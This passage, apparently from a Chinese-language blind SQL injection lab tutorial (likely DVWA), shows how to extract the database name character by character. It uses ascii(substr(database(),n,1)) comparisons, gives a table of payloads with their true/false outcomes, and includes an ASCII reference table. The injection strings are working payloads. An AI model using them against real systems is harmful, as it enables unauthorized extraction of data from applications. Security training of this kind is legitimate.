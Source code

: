 ==>当前所连接数据库名称的长度=4

2）判断数据库名称的字符组成元素
此时利用substr()函数从给定的字符串中，从指定位置开始截取指定长度的字符串，分离出数据库名称的每个位置的元素，并分别将其转换为ASCII码，与对应的ASCII码值比较大小，找到比值相同时的字符，然后各个击破。

```cpp
mysql数据库中的字符串函数 substr()函数和hibernate的substr()参数都一样，但含义有所不同。

用法：
substr(string string,num start,num length);
string为字符串；
start为起始位置；
length为长度。

区别：
mysql中的start是从1开始的，而hibernate中的start是从0开始的。
```

在构造语句比较之前，先查询以下字符的ASCII码的十进制数值作为参考：

| 字符 | ASCII码-10进制 |      | 字符 | ASCII码-10进制 |
| ---- | -------------- | ---- | ---- | -------------- |
| a    | 97             | ==>  | z    | 122            |
| A    | 65             | ==>  | Z    | 90             |
| 0    | 48             | ==>  | 9    | 57             |
| _    | 95             |      | @    | 64             |

以上常规可能用到的字符的ASCII码取值范围：[48,122]
当然也可以扩大范围，在ASCII码所有字符的取值范围中筛选：[0,127]

| 输入                                       | 输出    |
| ------------------------------------------ | ------- |
| 1' and ascii(substr(database(),1,1))>88 #  | exists  |
| 1' and ascii(substr(database(),1,1))>105 # | MISSING |
| 1' and ascii(substr(database(),1,1))>96 #  | exists  |
| 1' and ascii(substr(database(),1,1))>100 # | MISSING |
| 1' and ascii(substr(database(),1,1))>98 #  | exists  |
| 1' and ascii(substr(database(),1,1))=99 #  | MISSING |
| 1' and ascii(substr(database(),1,1))=100 # | exists  |

==>数据库名称的首位字符对应的ASCII码为100，查询是字母 **d**

类似以上操作，分别猜解第2/3/4位元素的字符：
1' and ascii(substr(database(),2,1))>88 #
...==>第2位字符为 **v**
1' and ascii(substr(database(),3,1))>88 #
...==>第3位字符为 **w**
1' and ascii(substr(database(),4,1))>88 #
...==>第4位字符为 **a**
